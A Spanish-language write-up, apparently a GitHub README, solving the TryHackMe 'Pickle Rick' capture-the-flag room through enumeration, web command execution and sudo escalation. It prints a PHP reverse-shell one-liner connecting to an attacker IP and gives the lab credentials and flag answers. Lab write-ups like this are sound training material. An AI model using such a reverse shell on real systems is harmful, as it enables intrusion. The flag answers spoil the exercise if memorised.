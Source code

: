 ![Visitors](https://api.visitorbadge.io/api/visitors?path=https://github.com/Cibersegurata39/PickleRick&countColor=%23263759&style=flat)

# PickleRick
Máquina resuelta de *TryHackMe* en la que se trabaja la enumeración y *fingerprinting*, *reverse shell*, la escucha de puertos y la escalada de privilegios.
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-Nmap-6933FF?style=for-the-badge&logo=nmap&logoColor=white" />
  <img src="https://img.shields.io/badge/-Dirsearch-005571?style=for-the-badge&logo=dirsearch&logoColor=white" />
  <img src="https://img.shields.io/badge/-php-777BB4?style=for-the-badge&logo=php&logoColor=white" />
  <img src="https://img.shields.io/badge/-Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white" />
  <img src="https://img.shields.io/badge/-python-3776AB?style=for-the-badge&logo=python&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
</div>

## Objetivo

Explicar la realización del siguiente _Capture the flag_ perteneciente a la plataforma *TryHackMe*. Este desafío ambientado en la serie de *Rick y Morty* requiere explotar un servidor web y encontrar 3 ingredientes (*flags*) para ayudar a *Rick* a crear una poción que lo transforme nuevamente en humano. Para ello, se deberá interactuar con un formulario, penetrar en la máquina y realizar una escalada de privilegios.

## Que hemos aprendido?

- Realizar *fingerprinting* y enumeración de puertos y enumeración web.
- Realizar una *reverse shell*.
- Poner en escucha los puertos de la máquina.
- Escalada de privilegios.

## Herramientas utilizadas

- *Kali Linux*.
- Enumeración: *Nmap*, *Dirsearch*, *Python*.
- Penetración: *Bash*, *PHP*, *Netcat*. 

## Steps

### Enumeración y fingerprinting

La máquina a vulnerar pertenece a la plataforma *TryHackMe*, la propia web te proporciona la IP de la máquina víctima. La conexión a esta se hace mediante una VPN que te proporciona THM y asigna una nueva IP para que tu máquina interactúe con la máquina vulnerable.
El primero paso es lanzar **Nmap** sin *ping* (-Pn) y con los *scripts* por *default* de la herramienta (-sC) para que encuentre vulnerabilidades. Además se quieren conocer las versiones que corren en cada puerto (-sV) y el sistema operativo (-O). No se indica, específicamente, que compruebe todos los puertos pues en este tipo de máquina no será necesario.

![Captura de pantalla 2025-04-04 131854](https://github.com/user-attachments/assets/8527c885-9cdd-499a-ba91-bebcf4b73f80)

El comando devuelve 2 puertos TCPs abiertos:  
- En el puerto 22 corre la versión *Openssh 8.2p1*, en un sistema *Ubuntu*, servicio *SSH*.  
- En el puerto 80 corre el servidor *Apache 2.4.41*, en un sistema *Ubuntu*, servicio *HTTP*.

Primero nos dirigimos, desde el navegador, al puerto 80 de la IP dada, donde se puede ver un mensaje de ayuda de *Rick*. Si se inspecciona el código de la página se puede encontrar un comentario con el nombre de usuario: *R1ckRul3s*.

![image](https://github.com/user-attachments/assets/52f9925c-635c-4310-bcb4-342b65b72e7e)

Seguidamente, con la ayuda de la herramienta **Dirsearch**, se hace una enumeración de posibles directorios y archivos que se encuentren en la web. Por la parte de directorios, únicamente aparece '/assets' pero su contenido no aporta ninguna pista. Sin embargo, sí aparecen varios archivos interesantes que son alzanzables. *Dirsearch* es lanzado con **Python3** indicando la IP a atacar (-u) y la lista a utilizar para la enumeración (-w); en este caso la 'raft-small-files-lowercase.txt'.

![Captura de pantalla 2025-04-04 134454](https://github.com/user-attachments/assets/664445ee-a900-445c-a035-085657bca083)

Al dirigrnos al archivo '/robots.txt', se encuentra lo que parece ser una contraseña que junto con el usuario antes encontrado, serán útiles para el otro archivo '/login.php', también hallado en la enumeración. 

![Captura de pantalla 2025-04-04 134517](https://github.com/user-attachments/assets/efdb16bd-b14c-41bd-bd19-edb158f80200)

| Usuario | Contraseña |
|---------|------------|
| R1ckRul3s | Wubbalubbadubdub |


### Vulnerabilidades explotadas

Al hacer el *log in* se llega a un formulario que accepta comandos. Después de realizar un <code>whoami</code> y un <code>pwd</code>, se descubre que somos el usuario 'www-data' y estamos en el directorio '/var/www/html'. Ejecutando <code>ls</code>, aparecen la lista de archivos que contiene el directorio entre los que destaca 'Sup3rS3cretPickl3Ingred.txt'. Para leer el contenido de este archivo es necesario utilizar el comando <code>less</code>, en lugar de <code>cat</code>, pues este está deshabilitado. De esta manera se encuentra el primer ingrediente.

<code>less Sup3rS3cretPickl3Ingred.txt</code>

**Flag: mr. meeseek hair**

![image](https://github.com/user-attachments/assets/281596d6-0bb6-454a-99a9-bc4494a38749)

Otro archivo interesante para inspeccionar es 'clue.txt', el cual informa de la posibilidad de encontrar otro ingrediente alrededor del *file system*. Se intenta navegar por los directorios a través del panel de comandos pero no es posible y se encuentran muchas limitaciones. Por ese motivo se intentará hacer una *reverse shell* para penetrar la máquina y trabajar desde dentro.

![Captura de pantalla 2025-04-08 174710](https://github.com/user-attachments/assets/efdbda6c-9acc-41bf-bac4-90fef94e646e)

Después de comprobar que la máquina víctima tiene **PHP** instalado mediante el comando <code>which php</code>, me dispongo a hacer la *reverse* con el código sacado de la web de [*pentestmonkey*](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Únicamente es preciso cambiar la dirección IP por la de la máquina atacante (en este caso, nos la proporciona THM mediante la VPN) y el puerto que se pone en escucha.

<code>php -r '$sock=fsockopen("10.23.92.113",1234);exec("/bin/sh -i <&3 >&3 2>&3");'</code>

Desde la máquina anfitriona se pone en escucha (-l) el puerto (-p) 1234 con la herramienta **Netcat**. Se le indica verbosidad (-v) para que muestre información como las conexiones establecidas y que no resuelva nombres de dominio (-n), solo se conecte a las direcciones IP, lo que hace que la conexión sea más rápida, evitando la resolución de DNS.

![Captura de pantalla 2025-04-08 180322](https://github.com/user-attachments/assets/655dc72c-3564-4a25-be3f-409d1498901a)

Una vez dentro, navegando hacia el directorio '/home/rick' aparece un archivo llamado 'second ingredients' donde se encuentra la segunda bandera. Desde dentro de la máquina ya se puede hacer uso de <code>cat</code> teniendo en cuenta que el archivo lo pondremos entre comas simples, pues su nombre está formado por dos palabras.

<code>cat 'second ingredients'</code>

**Flag: jerry tear**

![Captura de pantalla 2025-04-08 180738](https://github.com/user-attachments/assets/0607b361-f320-4904-a919-d9dfc0f53ef5)

Para encontrar el último ingrediente, se debe escalar privilegios. Primero se comprueba que comandos, el usuario actual (www-data), puede ejecutar con permisos de *sudo*. 

<code>sudo -l</code>

En la respuesta se aclara que se puede pasar a usuario *root* sin necesidad de instertar ninguna contraseña. Esto permite acceder al diretorio /*root* y encontrar dentro del archivo '3rd.txt' el tercer ingrediente.

![Captura de pantalla 2025-04-08 181105](https://github.com/user-attachments/assets/baf2e399-5077-4b13-b7de-40b90db803b0)

**Flag: fleeb juice **
